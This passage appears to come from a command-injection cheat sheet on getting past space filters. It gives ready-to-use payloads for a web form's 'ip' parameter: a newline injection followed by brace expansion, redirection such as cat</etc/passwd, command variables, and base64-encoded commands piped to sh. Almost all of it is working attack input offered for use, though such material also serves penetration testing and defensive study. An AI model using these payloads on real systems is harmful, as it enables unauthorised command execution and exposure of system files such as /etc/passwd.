 **Web Application Implementation:**
```http
ip=127.0.0.1%0a{whoami}
# For commands with arguments:
ip=127.0.0.1%0a{ls,-la}
```

**Multi-Argument Example:**
```http
# Traditional: ls -la /etc/passwd
# Brace expansion: {ls,-la,/etc/passwd}
ip=127.0.0.1%0a{ls,-la,/etc/passwd}
```

---

## Additional Space Bypass Methods

### Method 4: Redirection Operators

**Technique:** Use input/output redirection for spacing

```bash
# Using input redirection
cat</etc/passwd

# Using output redirection  
ls>output.txt
cat<output.txt

# Web application usage
ip=127.0.0.1%0acat</etc/passwd
```

### Method 5: Variable Assignment

**Technique:** Assign commands to variables without spaces

```bash
# Variable assignment without spaces
cmd=whoami;$cmd

# With arguments
cmd="ls -la";$cmd

# Web application usage
ip=127.0.0.1%0acmd=whoami;$cmd
```

### Method 6: Base64 Encoding

**Technique:** Encode entire command to avoid problematic characters

```bash
# Encode command
echo "ls -la" | base64
# Result: bHMgLWxhCg==

# Execute encoded command
echo bHMgLWxhCg== | base64 -d | sh

# Web application usage
ip=127.0.0.1%0aecho${IFS}bHMgLWxhCg==|base64${IFS}-d|sh
```
